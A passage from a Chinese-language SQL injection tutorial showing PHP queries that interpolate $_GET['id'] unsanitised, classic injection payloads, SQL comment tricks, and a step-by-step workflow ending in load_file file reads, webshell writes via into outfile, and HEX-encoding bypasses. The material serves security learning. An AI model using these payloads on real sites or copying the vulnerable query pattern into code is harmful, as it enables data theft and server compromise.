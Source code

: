 ```php
$query="select name,age,gender from t_students where id='{$_GET['id']}'";
```

此时我们的参数`$_GET['id']`被单引号引起来了

###### 2>双引号闭合

```php
$id='"'.$_GET['id'].'"';
$query="select name,age,gender from t_students where id={$id}";
```

此时我们的参数`$_GET['id']`被双引号引起来了，所以大家觉得哪个憨憨程序员会这么写呢？？所以双引号作为闭合符的情况基本上不可能出现。

#### 3、基于获取数据的方法分类

###### 1）回显注入                            

**三种注入poc**

```
 where user_id = 1 or 1=1

 where user_id = '1' or '1'='1'

 where user_id =" 1 "or "1"="1"
```

**三种sql注释符**

```
#   单行注释  注意与url中的#区分，常编码为%23

--空格   单行注释 注意为短线短线空格

/*（）*/   多行注释 至少存在俩处的注入  /**/常用来作为空格
```

**注入流程**

```
是否存在注入并且判断注入类型

判断字段数  order by 

确定回显点   union select 1,2

查询数据库信息  @@version  @@datadir

查询用户名，数据库名   user()  database()

文件读取 union select 1,load_file('C:\\wondows\\win.ini')#

写入 webshell    select..into outfile...

补充一点，使用sql注入遇到转义字符串的单引号或者双引号，可使用HEX编码绕过
```
